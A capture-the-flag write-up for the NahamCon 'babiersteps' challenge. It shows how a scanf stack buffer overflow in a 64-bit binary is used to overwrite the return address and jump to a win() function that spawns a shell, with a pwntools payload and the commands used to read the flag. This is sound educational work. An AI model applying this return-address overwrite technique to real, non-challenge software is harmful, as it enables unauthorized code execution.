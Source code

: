 # NahamCon - babiersteps

Another buffer overflow challenge :)
Now we don't have any source code - no worries!

We're given a binary, and using the `file` command, we can see we're given a 64 executable.

![](2022-04-30-01-30-24.png)

Let's open up gdb. Firstly, we would like to know the functions in this binary:

![](2022-04-30-01-29-45.png)

So the interesting functions are `main` and `win` - we want to jump to `win` somehow.
Let's run the binary:

```
Everyone has heard of gets, but have you heard of scanf?
```

Sus. Obviously we are facing some bufferoverflow with `scanf`. Let's disassemble `win`:

![](2022-04-30-01-37-09.png)

There's a call to `execv` - probably calling bash to create a shell - that's our goal.

Let's disassemble main:

![](2022-04-30-01-32-30.png)

The program only outputs the initial string and then reads input using `scanf`.
We can see that `scanf` reads the input into a buffer at `rbp-0x70`, since it's passed to `scanf` before calling it.

The buffer is 112 bytes (0x70 bytes), and the function allocates it at the start of main:

![](2022-04-30-01-35-09.png)

So what we want to do is:
- Overwrite the buffer
- Overwrite the old RBP (8 bytes)
- Overwrite the return address to be `win`

Let's do that using pwntools:

```python
# Overwrite the buffer (112 bytes), the return address (8 bytes) and overwrite the return address to win
exploit_str = ("1" * 112 + "2" * 8).encode() + p64(0x00000000004011c9)

# Save exploit string as file locally
file = open("exploit", "wb")
file.write(exploit_str)
file.close()
```

To ensure that the buffer overflow actually works, I debugged with gdb with the output of the python script above, and set a breakpoint in `win`.

![](2022-04-30-01-41-38.png)

And indeed we reach `win`.

So now we got the shell, the flag is probably somewhere here. Let's send and `ls`:

```python
conn.sendline("ls")
print(conn.read().decode())
```

We get:
```
babiersteps
bin
dev
etc
flag.txt
lib
lib32
lib64
libx32
usr
```

Great :) let's just print the flag:


```python
conn.sendline("cat flag.txt")
print(conn.read().decode())
```

Bam:

```
flag{de8b6655b538a0bf567b79a14f2669f6}
```
